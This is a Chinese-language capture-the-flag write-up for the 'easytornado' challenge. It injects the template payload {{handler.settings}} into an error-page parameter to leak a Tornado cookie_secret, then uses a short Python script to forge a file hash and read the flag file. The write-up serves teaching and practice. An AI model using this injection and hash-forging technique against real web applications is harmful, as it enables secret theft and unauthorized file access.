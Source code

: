 # easytornado

我们可以查看三个地址:

`/flag.txt` 内容:

```
flag in /fllllllllllllag
```

`/welcome.txt` 只有 `render`, 我也不懂什么意思.

`/hints.txt` 让我们知道 `filehash` 的构造:

```
md5(cookie_secret+md5(filename))
```

以上三个 `URL` 有共同的结构:

```
http://111.200.241.244:53584/file?filename=文件路径&filehash=文件哈希
```

那么需要构造 `URL`: `/file?filename=/fllllllllllllag&filehash=文件 /fllllllllllllag 的哈希` 就可以得到 `flag`. 根据 `/hint.txt` 的提示, 需要找到 `cookie_secret`.

使用 `gobuster`, 我找到地址 `http://111.200.241.244:53584/error?msg=` 可能存在 `SSTI` 漏洞 (题名 `tornado` 是一个 `Python` 框架名).

不知道怎样才能拿到 `cookie`, 查了一些 [write up](https://blog.csdn.net/mochu7777777/article/details/104866991), `cookie` 可以读通过 `handler.settings`:

```
http://111.200.241.244:53584/error?msg={{handler.settings}}
```

返回:

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '22894d2e-48f5-4dc1-8818-1d41327a50e2'}
```

最后写一个简单的脚本:

```py
import hashlib

filename = '/fllllllllllllag'
cookie_secret = '22894d2e-48f5-4dc1-8818-1d41327a50e2'

filename_md5 = hashlib.md5(filename.encode()).hexdigest()
filehash = hashlib.md5((cookie_secret + filename_md5).encode()).hexdigest()

print(filehash)
```

Payload:

```
http://111.200.241.244:53584/file?filename=/fllllllllllllag&filehash=7a64956f47e504739e99573d5db0d148
```
